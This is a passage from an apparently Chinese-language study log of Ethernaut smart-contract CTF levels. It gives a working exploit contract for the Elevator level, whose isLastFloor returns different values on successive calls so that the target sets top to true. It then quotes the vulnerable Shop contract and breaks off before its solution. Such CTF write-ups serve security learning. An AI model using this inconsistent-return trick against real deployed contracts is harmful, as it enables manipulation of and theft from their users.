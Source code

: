 ```
}
```

如果要top返回true，就要islastfloor第一次返回false，第二次返回true。building合约是调用的msg.sender，所以我们构造一个合约，其islastfloor函数满足这个逻辑就好，输入的参数不重要。

```
contract MockBuilding {
    uint count=0;
    function isLastFloor(uint256 a) external returns (bool){
        if (count==0){
            count++;
            return false;
        }else{
            return true;
        }
    }
    function callElevator(address addr) external{
        Elevator(addr).goTo(0);
    }
}
```


### 2024.08.31

Ethernaut 
#### Shop

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) { //调用者的price>=100且从未buy过
            isSold = true;
            price = _buyer.price(); 
        }
    }
}
```

要求price<100
